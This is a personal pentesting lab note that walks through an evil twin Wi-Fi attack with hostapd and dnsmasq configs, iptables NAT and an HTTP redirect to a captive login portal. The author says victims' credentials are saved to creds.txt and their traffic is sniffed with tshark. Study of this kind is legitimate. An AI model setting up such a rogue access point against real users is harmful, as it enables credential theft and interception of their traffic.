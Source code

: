 ```yaml
---
{"dg-publish":true,"permalink":"/cybersecurity/03-wifi-pentesting/29-apr/evil-twin-attack/"}
---
```


Date : 29 Apr, 2025

---
# Evil Twin Attack

- Evil Twin attack is a type of attack where the attacker clones a wifi network tricking users into connecting to a malicious wifi.
## Preparation:

	apt-get update
	apt-get install hostapd dnsmasq
	airmon-ng start wlan0
	
 ## hostapd.conf: 
 
	sudo nano hostapd.conf 

![attachments/Pasted image 20250430061257.png|600](/img/user/Cybersecurity/03_wifi_pentesting/29%20Apr/attachments/Pasted%20image%2020250430061257.png)

- We are going to add the below configuration into `hostapd.conf` file :
![attachments/Pasted image 20250430061207.png|600](/img/user/Cybersecurity/03_wifi_pentesting/29%20Apr/attachments/Pasted%20image%2020250430061207.png)

	interface=[INTERFACE NAME]
	driver=nl80211
	ssid=[WiFi NAME]
	hw_mode=g
	channel=8  
	macaddr_acl=0
	ignore_broadcast_ssid=0

> [!NOTE]
> - The `hostapd.conf` file will use our adapter to run an access point(AP mode)

 ## dnsmasq.conf: 
 
	sudo nano dnsmasq.conf

- Below is the dns configuration for `dnsmasq.conf` file
![attachments/Pasted image 20250430201144.png|600](/img/user/Cybersecurity/03_wifi_pentesting/29%20Apr/attachments/Pasted%20image%2020250430201144.png)

	interface=[INTERFACE NAME]
	dhcp-range=192.168.1.2, 192.168.1.30, 255.255.255.0, 12h
	dhcp-option=3, 192.168.1.1
	dhcp-option=6, 192.168.1.1
	server=8.8.8.8 
	log-queries
	log-dhcp
	listen-address=127.0.0.1
	 

> [!NOTE]
> - The `dnsmasq.conf` will allow the connected machines to get an ip address on the basis of our configuration (using DHCP).

 ## Routing table and gateway:

	ifconfig wlan0 up 192.168.1.1 netmask 255.255.255.0
	route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1

![attachments/Pasted image 20250430061643.png|600](/img/user/Cybersecurity/03_wifi_pentesting/29%20Apr/attachments/Pasted%20image%2020250430061643.png)

> [!NOTE]
> - The routing tables and the gateway will make sure the traffic passes through the gateway.


 ## Internet access:

	iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
	iptables --append FORWARD --in-interface wlan0 -j ACCEPT

![attachments/Pasted image 20250430062001.png|600](/img/user/Cybersecurity/03_wifi_pentesting/29%20Apr/attachments/Pasted%20image%2020250430062001.png)
- The above two commands will provide internet access to the connected devices by re-routing the **wlan0** traffic via **eth0**

## Launching AP (Evil Twin Attack) :
![attachments/Pasted image 20250430062137.png](/img/user/Cybersecurity/03_wifi_pentesting/29%20Apr/attachments/Pasted%20image%2020250430062137.png)

### Connected device with Internet access
![attachments/Pasted image 20250430062329.png](/img/user/Cybersecurity/03_wifi_pentesting/29%20Apr/attachments/Pasted%20image%2020250430062329.png)
![attachments/Pasted image 20250430062406.png|600](/img/user/Cybersecurity/03_wifi_pentesting/29%20Apr/attachments/Pasted%20image%2020250430062406.png)
#### The connected device has acquired an ipv4 address via DHCP : 
![attachments/Pasted image 20250430062927.png](/img/user/Cybersecurity/03_wifi_pentesting/29%20Apr/attachments/Pasted%20image%2020250430062927.png)

## Launching a login portal : 
#### Clear any old rules
	sudo iptables -t nat -F

#### Redirect HTTP traffic to Flask captive portal
	sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j DNAT --to-destination 192.168.1.1:80
	sudo iptables -t nat -A POSTROUTING -j MASQUERADE

#### Enable IP forwarding (if not already done)
	echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward

- I have created a python code that can integrate with `hostapd.conf` to generate a login portal for devices that are connected.
 
![attachments/Pasted image 20250430064156.png](/img/user/Cybersecurity/03_wifi_pentesting/29%20Apr/attachments/Pasted%20image%2020250430064156.png)

![attachments/Pasted image 20250430064214.png](/img/user/Cybersecurity/03_wifi_pentesting/29%20Apr/attachments/Pasted%20image%2020250430064214.png)
![attachments/Pasted image 20250430103230.png|750](/img/user/Cybersecurity/03_wifi_pentesting/29%20Apr/attachments/Pasted%20image%2020250430103230.png)

> [!important]
> - The credentials given by the victims can be collected into creds.txt

![attachments/Pasted image 20250430064929.png](/img/user/Cybersecurity/03_wifi_pentesting/29%20Apr/attachments/Pasted%20image%2020250430064929.png)
- The above screenshot shows that I have successfully got the internet access in wifi


---

## Tshark
- It is a packet capture tool or a traffic analysis tool like wireshark
- In this we can specify the interface using `-i`
- To capture the AP traffic we apply : 
  - `tshark -i wlan0`
- sceernshots
- The captured traffic is not saved, it is only for line analysis purpose
- The connected devices are trying to access internet which is being analyzed by attacker(me) via tshark